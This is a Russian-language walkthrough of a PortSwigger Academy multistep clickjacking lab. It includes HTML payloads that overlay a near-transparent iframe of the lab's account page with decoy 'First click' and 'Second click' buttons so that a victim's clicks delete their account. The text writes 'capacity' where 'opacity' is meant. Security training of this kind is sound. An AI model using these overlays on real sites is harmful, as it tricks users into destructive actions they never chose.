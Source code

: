 Логинимся под `wiener:peter`

При нажатии на `Delete account` нас перебрасывает на другую страницу для подтверждения действия
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/1.png)

Пока отменим, и перейдем в `Exploit server`
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/2.png)

и сконфигурируем `iframe` для первого экрана
```
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 1000px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick{
		position:absolute;
		top:520px;
		left:60px;
		z-index: 1;
	}
 
</style>
<div class="firstClick">First click</div>
<iframe src="https://0a1a00b503bdb1ce80d5537e00420083.web-security-academy.net/my-account"></iframe>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/3.png)

Перейдем во `View exploit` и убедимся, что у нас все получилось

Да, отлично, все хорошо
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/4.png)

Отлично, время дополнить его вторым кликом
```
<style>
	iframe {
		position:relative;
		width:1000px;
		height: 1000px;
		opacity: 0.1;
		z-index: 2;
	}
   .firstClick, .secondClick{
		position:absolute;
		top:520px;
		left:60px;
		z-index: 1;
	}
   .secondClick {
		top:315px;
		left:225px;
	}
 
</style>
<div class="firstClick">First click</div>
<div class="secondClick">Second click</div>
<iframe src="https://0a1a00b503bdb1ce80d5537e00420083.web-security-academy.net/my-account"></iframe>
```

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/5.png)
Перейдем во `View exploit` и убедимся, что у нас все получилось

Да, отлично, все хорошо
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/6.png)

![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/16.%20Clickjacking/5.%20Multistep%20clickjacking/pics%20for%20walkthrough/7.png)

Я не разобрался, как сделать их исчезающими на каждом этапе, но вроде бы и так съело

Изменим `capacity` на `0.0000001` и нажмем `Store` -> `Deliver exploit to victim` и получим уведолмение об успешно выполненной лабораторной работе
